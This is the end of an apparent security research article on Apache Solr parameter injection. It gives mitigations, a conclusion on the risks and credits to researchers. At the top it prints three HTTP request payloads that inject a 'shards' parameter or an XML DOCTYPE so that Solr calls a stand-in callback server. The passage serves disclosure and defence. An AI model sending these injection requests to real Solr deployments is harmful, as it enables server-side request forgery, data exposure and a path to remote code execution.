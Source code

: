 ```http request
GET /xxx?q=aaa%26shards=http://callback_server/solr 
GET /xxx?q=aaa&shards=http://callback_server/solr
GET /xxx?q={!type=xmlparser v="<!DOCTYPE a SYSTEM 'http://callback_server/solr'><a></a>"}
```
## Mitigations
The following mitigations can be used to prevent this issue:
* Make sure that user supplied data is url-encoded when included in a manually-crafted request to Solr. (SolrJ does it automatically.) This should prevent injection of additional parameters using the ```&``` character.
* Remove curly brackets (```{``` and ```}``` characters) from user controlled data being passed to Solr to avoid local parameter injection.

## Conclusion
No matter whether the Solr instance is facing the internet, behind the reverse proxy, or used only by internal web applications, allowing to modify Solr search parameters is a significant security risk.
In cases where only a web application who uses Solr is accessible, by exploitation **Solr (local) Parameter Injection** it is possible to at least modify or view all the data within the Solr cluster, or even exploit known vulnerabilities to achieve remote code execution.

### Special Thanks
[Nicolas Grégoire](https://twitter.com/Agarri_FR) - for the wonderful CVE-2013-6397<br>
[Olga Barinova](https://twitter.com/_lely___) - for the incredible idea how to exploit CVE-2017-12629<br>
[_S00pY](https://twitter.com/_S00pY) - for the astonishing RCE via velocity template<br>
Apache Solr Team - for timely fixing all of these vulnerabilities

### Authors
[Michael Stepankin](https://twitter.com/artsploit), Veracode Research
